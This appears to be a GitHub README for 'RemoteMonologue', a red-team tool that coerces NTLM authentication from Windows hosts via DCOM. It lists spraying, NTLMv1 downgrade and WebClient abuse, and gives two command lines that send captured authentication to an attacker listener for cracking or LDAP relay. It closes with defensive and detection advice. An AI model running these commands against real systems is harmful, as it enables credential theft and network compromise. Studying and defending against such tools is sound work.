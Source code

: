 # RemoteMonologue

RemoteMonologue is a Windows credential harvesting attack that enables remote user compromise by leveraging the Interactive User RunAs key and coercing NTLM authentications via DCOM. This technique allows red teamers to extract credentials without moving laterally or interacting with LSASS, making it a stealthier alternative to traditional credential dumping methods.

## **Features**  

🔹 **Authentication Coercion via DCOM (`-dcom`)**  
- Targets three DCOM objects (`ServerDataCollectorSet`, `FileSystemImage`, `UpdateSession`) to trigger NTLM authentication against a specified listener (`-auth-to`).  

🔹 **Credential Spraying (`-spray`)**  
- Validate credentials across multiple systems while also capturing user credentials.  

🔹 **NetNTLMv1 Downgrade Attack (`-downgrade`)**  
- Force targets to use NTLMv1, making credential cracking and relaying easier.  

🔹 **WebClient Service Abuse (`-webclient`)**  
- Enables the WebClient service to facilitate HTTP-based authentication coercion.  

🔹 **User Enumeration (`-query`)**  
- Identify users with an active session on the target system.  

**Note:** Local administrator access to the target system is required.  

## **Setup**

```bash
pip install impacket
```

## **Examples**

Below is an example of running RemoteMonologue with the NetNTLMv1 downgrade attack while using `Responder` as the listener. By default, if no DCOM option is specified, the tool uses the `ServerDataCollectorSet` DCOM object.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener IP] -downgrade
```

![image](https://github.com/user-attachments/assets/ada8f741-754f-4c50-9743-a6d9145f7407)


Below is another example, this time the attack is executed using the `FileSystemImage` DCOM object and enabling the WebClient service to obtain an HTTP authentication, which is then relayed to LDAP using `ntlmrelayx`.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener NETBIOS@PORT] -webclient -dcom FileSystemImage
```

![image](https://github.com/user-attachments/assets/f79d879a-ac4b-4436-a453-359d6e2eba72)


## **Defensive Considerations**

To protect against and detect these techniques, there are several preventative and detection measures that can be implemented.

Preventative measures:

1.	Enable LDAP Signing and Channel Binding: Configure LDAP signing enforcement and channel binding on domain controllers to protect the LDAP endpoint from relay attacks. Note: These settings will be enforced by default starting with Windows Server 2025.

2.	Upgrade to the Latest Windows Versions: Upgrade servers to Windows Server 2025 and workstations to Windows 11 version 24H2 to mitigate NetNTLM downgrade attacks, as NTLMv1 has been removed in these versions.

3.	Enforce SMB Signing: Enable and enforce SMB signing on Windows servers to prevent SMB relay attacks.

4.	Implement Strong Password Policies: Enforce strong password requirements to make password cracking attacks more challenging.

Detection opportunities:

1.	Monitor Remote Access to DCOM Objects: Track access to the affected DCOM objects and their specific Properties and Methods to identify unusual activity.

2.	Monitor Registry Modifications: Monitor changes to the RunAs and LmCompatibilityLevel registry keys.

3.	Track WebClient Service Activity: Monitor for instances where the WebClient service is enabled remotely, as this is used to facilitate HTTP-based NTLM authentications.




